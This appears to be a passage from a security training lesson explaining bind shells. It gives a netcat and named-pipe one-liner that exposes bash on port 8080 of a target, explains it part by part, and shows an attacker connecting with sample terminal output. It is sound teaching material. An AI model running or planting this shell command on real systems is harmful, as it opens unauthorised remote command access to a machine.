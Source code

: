 ### Bind Shell

As the name indicates, a bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.  

#### How bind shells work

**Setting Up the Bind Shell on the Target**

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.
- **`| nc -l 0.0.0.0 8080`** - Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port `8080`. The shell will be exposed to the attacker once they connect to this port.
- `>/tmp/f` This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.

**Terminal on the Target Machine (Bind Shell Setup)**

Terminal

```shell-session
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Once the command is executed, it will wait for an incoming connection, as shown above.

**Attacker Connects to the Bind Shell**

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

`nc -nv TARGET_IP 8080`

**Explanation of the command**

- `nc` - This invokes Netcat, which establishes the connection to the target.
- `-n` - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.
- `-v` - Verbose mode provides detailed output of the connection process, such as when the connection is established.
- `TARGET_IP` - The IP address of the target machine where the bind shell is running.
- `8080` - The port number on which the bind shell listens.

**Attacker Terminal (After Connection)**

Terminal

```shell-session
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

After connecting, we can get a shell, as shown above, and execute commands.